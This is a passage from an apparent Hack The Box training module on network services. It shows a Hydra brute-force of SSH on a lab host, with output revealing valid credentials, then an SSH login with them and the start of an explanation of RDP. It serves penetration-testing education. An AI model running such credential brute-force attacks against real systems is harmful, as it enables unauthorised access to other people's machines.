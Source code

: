 ```shell-session
AIceBear@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```

To log in to the system via the SSH protocol, we can use the OpenSSH client, which is available by default on most Linux distributions.

Network Services

```shell-session
AIceBear@htb[/htb]$ ssh user@10.129.42.197

The authenticity of host '10.129.42.197 (10.129.42.197)' can't be established.
ECDSA key fingerprint is SHA256:MEuKMmfGSRuv2Hq+e90MZzhe4lHhwUEo4vWHOUSv7Us.


Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.129.42.197' (ECDSA) to the list of known hosts.


user@10.129.42.197's password: ********

Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

user@WINSRV C:\Users\user>
```

***

### Remote Desktop Protocol (RDP)

Microsoft's [Remote Desktop Protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) is a network protocol that allows remote access to Windows systems via `TCP port 3389` by default. RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization. The Remote Desktop Protocol defines two participants for a connection: a so-called terminal server, on which the actual work takes place, and a terminal client, via which the terminal server is remotely controlled. In addition to the exchange of image, sound, keyboard, and pointing device, the RDP can also print documents of the terminal server on a printer connected to the terminal client or allow access to storage media available there. Technically, the RDP is an application layer protocol in the IP stack and can use TCP and UDP for data transmission. The protocol is used by various official Microsoft apps, but it is also used in some third-party solutions.
